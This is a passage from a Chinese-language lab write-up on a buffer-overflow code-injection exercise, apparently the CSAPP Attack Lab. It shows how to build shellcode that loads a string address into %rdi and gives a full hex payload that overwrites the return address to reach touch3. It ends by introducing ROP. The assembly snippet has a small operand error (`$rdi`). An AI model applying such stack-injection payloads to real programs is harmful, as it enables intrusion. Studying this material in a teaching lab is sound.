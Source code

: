![img](https://pic1.zhimg.com/80/v2-c899503d536c44dc02706973016a6704_720w.png)

然后我们执行`print /x "59b997fa"`，将字符串转为ASCII码

![img](https://pic4.zhimg.com/80/v2-1afc41b35d60bc0e3348f08cc8fb3153_720w.png)

就能得到字符串对应的编码为`35 39 62 39 39 37 66 61 00`。

该字符串含有9个字节，则图中的`地址1`为`0x5561dc78+0x9=0x5561dc81`。

接下来我们需要将想要注入的`mov`指令转为对应的十六进制编码，首先创建一个汇编文件`CI-L3.s`，输入对应的指令

```text
movq $0x5561dc78, $rdi
ret
```

然后执行以下命令将其反汇编，得到文件`CI-L3.d`

```text
gcc -c CI-L3.s
objdump -d CI-L3.o > CI-L3.d
```

其中包含了指令对应的编码

![img](https://pic3.zhimg.com/80/v2-ce99a5012d9329e8857cc060a9806fb2_720w.jpg)

所以该指令对应的编码为`48 c7 c7 78 dc 61 55 c3`。

由于我们需要将缓冲区填满，才能覆盖原始的返回地址，而之前总共指令长度为`9+8=17`个字节，缓冲区大小为40字节，所以我们还需随机填充23个字节。

然后将原始返回地址修改为`mov`指令的地址，然后填充函数`touch3`的地址。

所以构建的十六进制数为

```text
35 39 62 39 39 37 66 61 00 /* "59b997fa" */
48 c7 c7 78 dc 61 55 /* mov */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 /* match buf */
81 dc 61 55 00 00 00 00 /* mov address */
fa 18 40 00 00 00 00 00 /* touch3 address */
```

将其保存到文本`CI-L3.txt`，然后执行` ./hex2raw < CI-L3.txt > CI-L3-raw.txt`将其转换为字符串，保存在`CI-L3-raw.txt`中，就是最终的答案。

我们可以在gdb中运行`run -q < CI-L3-raw.txt`

![img](https://pic3.zhimg.com/80/v2-aff3e5bd095b7054ec364e7ff7ba45d2_720w.jpg)

## ROP攻击

目前常用的防御技术是将栈位置随机，并且设置栈的指令是不可执行的，所以缓冲区注入攻击就失效了，此时可以使用ROP攻击。
